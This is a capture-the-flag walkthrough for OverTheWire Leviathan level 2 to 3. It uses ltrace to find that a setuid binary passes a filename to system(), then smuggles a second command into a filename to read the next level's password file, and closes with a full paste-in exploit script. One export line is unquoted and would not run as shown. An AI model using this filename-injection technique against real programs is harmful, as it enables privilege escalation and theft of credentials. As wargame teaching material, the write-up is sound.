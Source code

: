 # OTW - Leviathan #2 -> #3

Coming off of #1 -> #2 the method appears to be similar. Use the executable in the home folder to escalate access to the next numbered user and then print the password in `/etc/leviathan_pass`

To figure out how to escalate access is the trick. In the previous answer we used `hexdump` and found the password contained in the execeutable's .text section.

This time, .text is not useful. But we can use `ltrace` to see what function calls the program is making. First we create a temp folder to work in:


`mkdir /tmp/afw0839fh9aw8h3f0 && cd /tmp/afw0839fh9aw8h3f0`

Then we create a file to print:

`echo "test" > test`

Now we can run `ltrace`:

`ltrace ~/printfile /tmp/afw0839fh9aw8h3f0/test`

Output:

```
__libc_start_main(0x804852b, 2, 0xffffd704, 0x8048610 <unfinished ...>
access("test", 4)
snprintf("/bin/cat test", 511, "/bin/cat %s", "test")
geteuid()
geteuid()
setreuid(12002, 12002)
system("/bin/cat test"test
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )
+++ exited (status 0) +++
```

The interesting line is this: `system("/bin/cat test"test`

The script is making a system call that ammounts to `cat $filename`

We can exploit this by inserting a command into the filename so that it is run by the system call. First lets make our command to print the password:

`export c=cat /etc/leviathan_pass/leviathan3`

Now we will create a file with the command inside the name that will fit into the system call syntax:

`cp test 'test && $c'`

Now you can simply run this command to get the password:

`~/printfile 'test && $c'`

If we run an ltrace again we can see what is happening:

```
system("/bin/cat test && $c"test
```

Here is the complete answer (if you paste this into leviathan2 upon login you will receive the password:

```
randomString=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 13 ; echo '')
export p=/tmp/$randomString
mkdir $p && cd $p
touch c && echo "cat /etc/leviathan_pass/leviathan3" > c
chmod 777 c
export b=$p/c
cp c 'c && $b'
~/printfile 'c && $b'
```

(leviathan3)
